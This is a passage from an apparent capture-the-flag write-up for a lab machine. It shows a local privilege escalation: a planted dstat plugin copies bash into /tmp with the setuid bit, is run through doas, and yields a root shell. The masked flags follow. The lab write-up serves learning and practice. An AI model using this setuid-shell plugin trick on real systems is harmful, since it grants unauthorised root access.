 ```python
import os

os.system('cp /bin/bash /tmp/jjs')
os.system('chmod +s /tmp/jjs')
```

We confirm that dstat indeed sees our "plugin":

```sh
> doas /usr/bin/dstat --list | grep exploit
```

And when it turns out it sees, we run:

```sh
> doas /usr/bin/dstat --exploit
> cd /tmp
> player@soccer:/tmp$ ls
jjs
> ./jjs -p
jjs-5.0# whoami
root
```


# Flags

User:
```
808**************************a9e
```

Root:
```
a2b**************************bf7
```
